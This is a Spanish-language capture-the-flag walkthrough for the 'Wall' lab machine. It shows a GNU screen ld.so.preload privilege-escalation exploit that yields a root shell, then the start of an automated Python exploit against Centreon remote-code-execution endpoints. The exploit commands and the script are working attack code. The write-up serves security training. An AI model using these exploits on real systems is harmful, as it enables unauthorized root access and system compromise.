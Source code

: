 ```bash
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell 
```
Vale pues porque no vamos a intentar copiarnoslo y ejecutarlo en la maquina victima a ver si conseguimos acceso como root!!
Lo probamos y vemos que si:
```bash
www-data@Wall:/etc$ /tmp/rootshell 
# whoami
root
# 
```

Conseguimos escalar privilegios como `root` y ya podriamos visualizar las dos flags !! =D Maquina Rooteada Perooo....... porque no? vamos a automatizarnos la escalada con nuestro
exploit `AutoPwn_Wall.py` para acceder como `root` Directamente Yeahh!!! 
```bash
# ls                                                                                                                                                                1 ⚙
"AutoPwn_Wall.py"  libhax.c  "libhax.so"  "rootshell"  rootshell.c
```
Vale pues para la escalada tenemos que crearnos dos archivos (los no indicados) y compilarlos para que el exploit tire de ellos y lso transfiera desde nuestra ip a la maquina victima
```python3
#!/usr/bin/python3
# coding: utf-8

import sys
import time
import requests
import signal
import re
import pdb
import threading

from pwn import *

def def_handler(sig, frame):
        print("\n[+] Saliendo .. .\n")
        sys.exit(1)

# Crtl+C
signal.signal(signal.SIGINT, def_handler)

# Variables Globales, hacemos tres peticiones web 1 main_url, 2 config_url y 3 rce_url
main_url = "http://10.10.10.157/centreon/index.php"
config_url = "http://10.10.10.157/centreon/main.get.php?p=60901"
rce_url = "http://10.10.10.157/centreon/include/configuration/configGenerate/xml/generateFiles.php"
lport = 1234 # No Change THIS

def makeRequest(password):
# Variable "S" para crear una session con la que poder jugar con peticiones Get/Post en la misma Session
        s = requests.session()
# Variable "R" para arrastrar la Variable anterior "S" para arrastrar la session y poder Trabajar con el "Centreon Token" al hacer la peticion a "MAIN__URL"
        r = s.get(main_url)
```